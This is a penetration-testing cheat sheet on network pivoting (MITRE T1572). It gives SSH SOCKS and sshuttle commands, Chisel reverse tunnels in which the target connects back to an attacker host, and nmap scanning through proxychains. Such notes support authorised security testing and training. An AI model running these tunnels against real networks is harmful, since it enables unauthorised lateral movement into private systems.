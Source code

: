 ```yaml
---
description: MITRE ATT&CK, Command and Control, Technique T1572
---
```


# Pivoting

### Pivoting with SSH

```bash
# Pivoting with an SSH SOCKS proxy
ssh -D $port -q -C -N parzival@$ip

# Pivoting with SSHuttle 
## https://github.com/sshuttle/sshuttle
sshuttle -vr parzival@$ip $targetSubnet/24
```

{% embed url="https://t.co/7owIpuQiUy" %}

### Setting up a SOCKS Proxy with Chisel

1\. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)

> Note, you will need the Chisel binary placed on both your attacking system the target system.

2\. On the attacking system:

```bash
./chisel server --socks5 --reverse -p 8000
```

3\. On the target system:&#x20;

```bash
.\chisel.exe client $attackerip:8000 R:socks
```

4\. Observe on the attacking system that the SOCKS5 connection has been successfully established.

#### Forwarding One Port with Chisel

1\. On the attacking system:

```bash
./chisel server 8000 -reverse
```

2\. On the target system:&#x20;

```bash
# Listen on Kali 80, forward to localhost port 80 on client
.\chisel client $attackerip:8000 R:1337:127.0.0.1:1337

# Listen on Kali 4444, forward to 10.10.10.240 port 80
.\chisel client $attackerip:8000 R:4444:10.10.10.240:80
```

#### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep $localport
```

#### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running&#x20;

```bash
nmap -sC -sV -p3306 -n localhost
```

### Nmap Scanning through Proxychains

When performing scans on the network through proxychains it is important to use the `-sT` flag. The following command demonstrates an Nmap command to use:

```bash
nmap -sT -Pn -n $port
```

{% hint style="warning" %}
You do not need this when utilizing SOCKS5 as it supports both ICMP and DNS.
{% endhint %}

### References

#### SSH

{% embed url="https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d" %}

{% embed url="https://anubissec.github.io/How-To-Pivot-Into-Target-Network-With-SSH/" %}

#### Chisel

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}
